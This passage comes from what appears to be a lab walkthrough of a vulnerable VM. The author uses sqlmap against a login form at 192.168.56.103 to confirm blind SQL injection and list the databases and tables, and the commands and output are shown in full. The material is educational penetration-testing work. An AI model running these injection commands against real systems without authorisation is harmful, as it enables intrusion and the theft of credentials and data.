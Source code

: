 {{< / highlight >}}

I've removed some of the output for clarity, but I can see
that there's possibility of a blind SQL injection for both `user` and
`password` and that it's a MySQL databse. Great. 
We can carry on using `sqlmap` to try and discover
what tables there are and if we can find any useful information.

First I'll get a list of databases on the system. This process takes a little while,
so when it asks "*do you want sqlmap to try to optimize value(s) for DBMS delay 
responses (option '--time-sec')? [Y/n]*" answer *YES*. It will be done quicker.

{{< highlight console >}}
root@kali:~# sqlmap  -u "192.168.56.103/login.php" --data="user=1&password=1&s=Submit" --dbms=mysql --dbs

<snip>

[12:20:19] [INFO] fetching database names
[12:20:19] [INFO] fetching number of databases
[12:20:19] [INFO] retrieved: 7
[12:20:21] [INFO] retrieved: information_schema
[12:21:36] [INFO] retrieved: login
[12:21:59] [INFO] retrieved: mysql
[12:22:20] [INFO] retrieved: performance_schema
[12:23:33] [INFO] retrieved: phpmyadmin
[12:24:18] [INFO] retrieved: users
[12:24:43] [INFO] retrieved: wordpress8080
available databases [7]:
[*] information_schema
[*] login
[*] mysql
[*] performance_schema
[*] phpmyadmin
[*] users
[*] wordpress8080

[12:25:44] [INFO] fetched data logged to text files under '/root/.sqlmap/output/192.168.56.103'

[*] shutting down at 12:25:44
{{< / highlight >}}

It found seven databases, amongst which is an interesting one: `wordpress8080`. 
This seems to be the wordpress database, so I can start attacking that and see
if I can get the *admin* account. The `login` and `users` databases also look 
interesting, so let's take a look at those later. Additionally, if I can get
a login, especially an *admin* one, I could try to exploit the plugins later on.
After all, it does say there are multiple ways into this VM.

{{< highlight console >}}
root@kali:~# sqlmap  -u "192.168.56.103/login.php" --data="user=1&password=1&s=Submit" --dbms=mysql --tables -D wordpress8080

<snip>

Database: wordpress8080
[1 table]
+-------+
| users |
+-------+
